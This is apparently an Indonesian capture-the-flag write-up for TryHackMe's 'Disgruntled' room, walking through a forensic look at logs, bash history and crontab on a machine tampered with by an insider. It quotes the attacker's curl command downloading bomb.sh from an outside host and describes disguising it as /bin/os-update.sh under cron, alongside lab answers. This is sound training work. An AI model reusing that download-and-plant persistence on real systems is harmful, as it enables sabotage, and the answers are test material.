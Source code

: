 # Disgruntled
- TryHackMe Challenge: https://tryhackme.com/room/disgruntled
- IP Machine: 10.10.166.127

## Studi Kasus
Kami tidak yakin apakah Anda pernah melihat beritanya, tetapi seorang karyawan dari departemen IT di salah satu klien kami (CyberT) telah ditangkap oleh polisi. Orang itu telah menjalankan operasi phishing yang sukses sebagai pekerjaan sampingan. Pihak CyberT ingin kami memeriksa apakah orang ini telah melakukan sesuatu yang berbahaya terhadap asetnya.

## Task 1 Introduction
- Akses machine dengan SSH kemudian masukkan password sesuai petunjuk soal
```sh
ssh root@IP_Machine
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%201.JPG)

## Task 3 Nothing suspicious... So far
- **Pertanyaan:** The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?
- Untuk menemukan jawabannya kita bisa mengecek file **/var/log/auth.log**. Kemudian untuk menginstall package biasanya diikuti kata "install", sehingga kita bisa memfilter log yang mengandung kata "install"
```sh
cat /var/log/auth.log | grep install
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%202.JPG)

- **Jawaban:**
```sh
/usr/bin/apt install dokuwiki
```

- **Pertanyaan:** What was the present working directory (PWD) when the previous command was run?
- Tinggal kita lihat nilai PWD di log

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%203.JPG)

- **Jawaban:**
```sh
/home/cybert
```

## Task 4 Let’s see if you did anything bad
- **Pertanyaan:** Which user was created after the package from the previous task was installed?
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "adduser"
```sh
cat /var/log/auth.log | grep adduser
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%204.JPG)

- **Jawaban:**
```sh
it-admin
```

- **Pertanyaan:** A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "visudo". Visudo adalah tool digunakan untuk memperbarui atau memodifikasi file sudoers.
```sh
cat /var/log/auth.log | grep visudo
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%205.JPG)

- **Jawaban:**
```sh
Dec 28 06:27:34
```

- **Pertanyaan:** A script file was opened using the "vi" text editor. What is the name of this file?
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "vi"
```sh
cat /var/log/auth.log | grep vi
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%206.JPG)

- **Jawaban:**
```sh
bomb.sh
```

## Task 5 Bomb has been planted. But when and where?
- **Pertanyaan:** What is the command used that created the file `bomb.sh` ?
- Dari pertanyaan Task 4, kita mengetahui bahwa file `bomb.sh` berada di path **/home/it-admin**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%207.JPG)

- Kemudian kita lihat riwayat perintah di path tersebut dengan bash history
```sh
cat /home/it-admin/.bash_history
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%208.JPG)

- **Jawaban:**
```sh
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```

- **Pertanyaan:** The file was renamed and moved to a different directory. What is the full path of this file now?
- Dari pertanyaan Task 4, kita mengetahui bahwa penyerang menggunakan vi editor jadi kita bisa mengecek riwayat entry kemudian memfilter riwayat yang mengandung kata "saveas" untuk melacak perubahan nama file

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%209.JPG)

- **Jawaban:**
```sh
/bin/os-update.sh
```

- **Pertanyaan:** When was the file from the previous question last modified? (Format: Month Day HH:MM)
- Kita bisa menggunakan ls untuk mengetahui kapan file tersebut dimodifikasi terakhir kali. Namun sayangnya kita tidak dapat mengetahui pukul berapa file tersebut diubah
```sh
ls -la /bin | grep os-update
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%2010.JPG)

- Kita dapat menggunakan tool date untuk menampilkan detail waktunya
```sh
date -r /bin/os-update.sh
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%2011.JPG)

- **Jawaban:**
```sh
Dec 28 06:29
```

- **Pertanyaan:** What is the name of the file that will get created when the file from the first question executes?
- Buka file **os-update.sh**
```sh
cat /bin/os-update.sh
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%2012.JPG)

- **Jawaban:**
```sh
goodbye.txt
```

## Task 6 Following the fuse
- **Pertanyaan:** At what time will the malicious file trigger? (Format: HH:MM AM/PM)
- Jika kita mempunyai malicious yang siap dijalankan maka file tersebut sudah pasti terjadwal di cron job. Kita bisa memeriksa file /etc/crontab untuk memastikannya
```sh
cat /etc/crontab
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%2013.JPG)

- Secara berurutan setiap kolomnya mendefinisikan menit, jam, hari dalam sebulan, bulan, dan hari dalam seminggu.
- **Jawaban:**
```sh
08:00 AM
```